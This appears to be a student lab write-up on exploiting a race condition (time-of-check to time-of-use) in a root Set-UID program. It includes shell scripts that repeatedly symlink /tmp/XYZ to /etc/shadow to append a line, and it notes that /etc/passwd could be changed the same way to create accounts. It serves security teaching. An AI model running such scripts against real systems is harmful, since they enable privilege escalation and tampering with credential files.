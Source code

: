 It appears that the program does not have any problem at a first glance. However, there is a race 
condition vulnerability in this program: due to the window (the simulated delay) between the check 
(access) and the use (fopen), there is a possibility that the file used by access is different from the file 
used by fopen, even though they have the same file name /tmp/XYZ. If a malicious attacker can 
somehow make /tmp/XYZ a symbolic link pointing to /etc/shadow, the attacker can cause the user input 
to be appended to /etc/shadow (note that the program runs with the root privilege, and can therefore 
overwrite any file).

### 2.3 Task 1: Exploit the Race Condition Vulnerabilities
You need to exploit the race condition vulnerability in the above Set-UID program. More specifically, you 
need to add a line “cs532-lab” to the end of /etc/shadow by using the race. Please also explain why your 
attack can success.
Actually, if you are able to modify the shadow file, you can use the same attack to modify the /etc/passwd 
file. As a result, you are be able to create any kind of accounts for the OS.

Our attack script:

```sh
#!/bin/sh
# attack.sh
race()
{
	old=`ls -l /etc/shadow`
	old=`ls -l /etc/shadow`
	while [ "$old"="$new" ]
	do
		rm -f /tmp/XYZ
		>/tmp/XYZ
		ln -sf /etc/shadow /tmp/XYZ
		new=`ls -l /etc/shadow`
	done
}

race
echo "Stop... The shadow has been changed!"
RACE_PID=$!
kill $RACE_PID
```

Loop execution script:

```sh
#!/bin/sh
# loop.sh
race()
{
	while true
	do
		./vulp < attack_input
	done
}

race
RACE_PID=$!
kill $RACE_PID
```

